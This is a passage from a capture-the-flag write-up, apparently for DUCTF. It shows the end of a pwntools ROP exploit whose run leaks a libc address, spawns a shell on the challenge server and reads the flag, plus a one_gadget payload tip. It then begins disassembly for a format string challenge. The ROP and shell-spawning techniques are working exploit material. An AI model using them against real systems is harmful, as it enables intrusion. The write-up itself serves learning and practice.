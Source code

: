 ```py
p.sendlineafter("?\n", payload)
p.interactive()
```

Running the exploit:-
```r
0 [01:04:58] vagrant@oracle(oracle) DUCTF> python3 return-to-what.py 
[+] Opening connection to chal.duc.tf on port 30003: Done
[*] Analyzing /home/vagrant/CTFs/DUCTF/return-to-what
[*] Analyzing /home/vagrant/CTFs/DUCTF/libc6_2.27-3ubuntu1_amd64.so
[*] LEAK:   0x7fc2c21d19c0
[*] Switching to interactive mode
$ cat flag.txt
DUCTF{ret_pUts_ret_main_ret_where???}
$ 
[*] Interrupted
[*] Closed connection to chal.duc.tf port 30003
```

> Alternatively, for the next ROP chain you can do `payload = b"A"*56 + one_gadget` where `one_gadget` could be `one_gadget = libc.address + 0x4f2c5`

# My First Echo Server

As the name implies, it is something related to format string, since it has all the protections enabled and we can invoke the format string vulnerability 3 times, we have to be careful, I divided all 3 into different step:-

```r
|           0x00000834      c745ac000000.  mov dword [var_54h], 0
|       ,=< 0x0000083b      eb2d           jmp 0x86a
|       |   ; CODE XREF from main @ 0x86e
|      .--> 0x0000083d      488b15dc0720.  mov rdx, qword [obj.stdin]  ; obj.stdin__GLIBC_2.2.5
|      :|                                                              ; [0x201020:8]=0 ; FILE *stream
|      :|   0x00000844      488d45b0       lea rax, qword [format]
|      :|   0x00000848      be40000000     mov esi, 0x40               ; segment.PHDR ; int size
|      :|   0x0000084d      4889c7         mov rdi, rax                ; char *s
|      :|   0x00000850      e84bfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|      :|   0x00000855      488d45b0       lea rax, qword [format]
|      :|   0x00000859      4889c7         mov rdi, rax                ; const char *format
|      :|   0x0000085c      b800000000     mov eax, 0
|      :|   0x00000861      e82afeffff     call sym.imp.printf         ; int printf(const char *format)
|      :|   0x00000866      8345ac01       add dword [var_54h], 1
|      :|   ; CODE XREF from main @ 0x83b
|      :`-> 0x0000086a      837dac02       cmp dword [var_54h], 2
|      `==< 0x0000086e      7ecd           jle 0x83d

```

